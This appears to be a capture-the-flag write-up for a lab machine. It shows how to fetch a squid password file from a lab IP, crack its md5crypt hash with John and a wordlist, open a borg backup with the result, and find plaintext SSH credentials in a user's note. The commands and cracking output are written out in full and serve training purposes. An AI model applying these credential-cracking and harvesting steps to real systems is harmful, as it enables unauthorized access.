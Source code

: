 - Visit `http://10.10.107.57/etc/squid/passwd` and get the credentials. Crack the hash with `John`.

  ```
  music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

  john --wordlist=/rockyou.txt hash.txt                    
  Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
  Use the "--format=md5crypt-long" option to force loading these as that type instead
  Using default input encoding: UTF-8
  Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  squidward        (?)     
  1g 0:00:00:00 DONE (2025-05-16 20:28) 5.555g/s 216533p/s 216533c/s 216533C/s 112806..samantha5
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
  ```
  
- After exploring the main web page I downloaded `archive.tar` and extracted it. I spend some time trying to get my way around it but couldn't do it. Well, one of the files contains message `https://borgbackup.readthedocs.io/`.

- I visited that link and it's actually a tool that will extract directory with hidden password. Exactly what we need! Install the tool and use this basic syntax `borg extract /path/to/directory::my-files`.

  ```
  sudo apt install borgbackup

  /home/field/dev
  borg extract final_archive::music_archive
  Enter passphrase for key ../Cyborg/home/field/dev/final_archive:

  ls
  final_archive  home
  ```

- We found the passphrase with `john`, you can also use the full path with `borg`. Now you should have access to `alex` repository. There's a secret in `Desktop` and note in `Documents`.

  ```
  field/dev/home/alex/Desktop
  cat secret.txt     
  shoutout to all the people who have gotten to this stage whoop whoop!"
  
  field/dev/home/alex/Documents
  cat note.txt  
  Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!
  
  alex:S3cretP@s3
  ```

- Beautiful, now we have SSH credentials, you know what to do.

---

